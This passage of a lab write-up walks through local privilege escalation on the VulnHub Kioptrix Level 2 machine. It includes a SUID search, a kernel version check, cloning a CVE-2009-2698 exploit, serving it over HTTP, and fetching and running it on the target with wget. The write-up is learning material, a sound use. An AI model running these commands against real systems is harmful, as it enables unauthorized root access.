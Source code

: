 I used the `find` command to look for files having the SUID bit set but got no results.

```bash
# Find files with SUID set and owned by root user
find / -type f -user root -perm -4000 -exec ls -l {} + 2> /dev/null
```

![Netcat|560](images/vulnhub-kioptrix-lvl2/netcat-2.png)

Since there did not seem to be any file that could be exploited I decided to turn to kernel exploits.

```bash
# Display Kernel Details
uname -a
```

![Netcat](images/vulnhub-kioptrix-lvl2/netcat-3.png)

I searched online if any exploits are present that target Linux kernel v2.6.9 and found multiple results.

![Exploit Search|480](images/vulnhub-kioptrix-lvl2/exploit.png)

[GitHub - CVE-2009-2698 compiled for CentOS 4.8](https://github.com/xiaoxiaoleo/CVE-2009-2698)

```bash
# Downloading Exploit
git clone https://github.com/xiaoxiaoleo/CVE-2009-2698.git
cd CVE-2009-2698
```

The exploit in the repository is already compiled so we can use it directly. After cloning the repository the exploit needs to be copied over onto the target system.

```bash
# Python Webserver
python -m http.server 9001
```

![Python Server|480](images/vulnhub-kioptrix-lvl2/python.png)

On the target system in the current directory, we do not have write permission.

```bash
ls -lah

cd /tmp
ls -lah
```

![Netcat|480](images/vulnhub-kioptrix-lvl2/netcat-4.png)

I used the `/tmp` directory to download the exploit and execute it.

```bash
# Downloading Exploit
wget http://10.0.2.15:9001/exp

# Running Exploit
./exp
chmod 755 exp
set -m
./exp

# Checking Permission
whoami
id
```
